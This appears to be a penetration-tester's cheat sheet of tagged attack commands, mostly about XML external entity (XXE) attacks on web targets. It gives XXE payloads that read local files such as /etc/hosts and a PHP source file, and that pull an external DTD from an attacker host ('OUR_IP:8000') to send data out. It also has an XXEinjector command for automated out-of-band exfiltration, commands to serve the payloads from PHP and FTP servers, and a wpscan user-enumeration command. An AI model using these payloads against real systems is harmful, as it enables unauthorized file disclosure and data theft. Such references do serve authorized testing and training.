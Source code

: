 ## Web Attacks - XXE - call join entity (on target)
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
echo '<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %xxe;
]>'
```

## Web Attacks - XXE - Error based hosted file (then host it on a webserver)
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

## Web Attacks - XXE - join entity file - error based (then host it on a webserver)
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

## Web Attacks - XXE - Automated OOB exfiltration
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
ruby XXEinjector.rb --host=<tun0 IP> --httpport=<httpPort8000> --file=<requestFile> --path=<localFileToRead> --oob=http --phpfilter
```

## Web attacks - php web server
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
php -S 0.0.0.0:8000
```

## LFI - ftp server
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sudo python -m pyftpdlib -p 21
```

## Wordpress - wpscan users
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
wpscan --url <targetURL> -e u
```
